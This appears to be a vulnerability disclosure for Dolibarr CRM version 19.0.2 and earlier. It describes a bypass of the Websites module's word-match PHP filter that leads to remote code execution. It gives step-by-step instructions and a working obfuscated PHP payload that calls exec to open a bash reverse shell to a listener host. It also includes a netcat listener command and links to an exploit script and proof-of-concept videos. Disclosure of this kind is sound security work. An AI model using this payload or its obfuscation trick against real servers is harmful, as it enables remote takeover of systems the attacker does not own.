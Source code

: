 # DynamicPHPCode Filtering Bypass leads to Remote Code Execution
## Description
The "Websites" module in Dolibarr CRM version <= 19.0.2 has "checkPHPCode" function check to ensure that the page does not contain any malicious function. However, this function only checks by using match word searching, which allows malicious authenticated users to bypass by using obfuscation techniques.

## Detail
1. Open module Website in Dolibarr Setup
2. Navigate to the Website page of Dolibarr application.
3. Create new website, import website template and choose any template
4. Choose one page of template and edit HTML source.
5. Submit HTML source with payload:

      <code>&lt;?php
          $_ = "{";
          $_ = ($_^"&lt;").($_^"&gt;;").($_^"/");
          ${'_'.$_} = array("_" =&gt; "exec", "__" =&gt; "/bin/bash -c '/bin/bash -i &gt;&amp; /dev/tcp/{YOUR_LISTENER_IP}/{YOUR_LISTENER_PORT} 0&gt;&amp;1'");
          $func_name = ${'_'.$_}["_"];
          $param = ${'_'.$_}["__"];
          $output = call_user_func($func_name, $param);
          echo $output;
      ?&gt;</code>

  
7. Using command ***nc -lvnp  {YOUR_LISTENER_PORT}*** in listener machine
8. Payload lead to Remote Code Execution in the target server

Or you can using <a href="https://drive.google.com/file/d/1gsUqtWGMqpVrPMXiHdmdFLRC8MzcFtfw/view?usp=drive_link">exploit.py</a>

## POC
Kindly go through the below video for detailed steps:

<a href="https://drive.google.com/file/d/11THfPSHO1BnIGTrd1SZRg6VoaR3MlwIx/view?usp=drive_link">POC.mp4</a>

<a href="https://drive.google.com/file/d/1cxPRDip2xlgAPlgKgWjomDHiY_g-2UW4/view?usp=drive_link">POC_by_script.mp4</a>
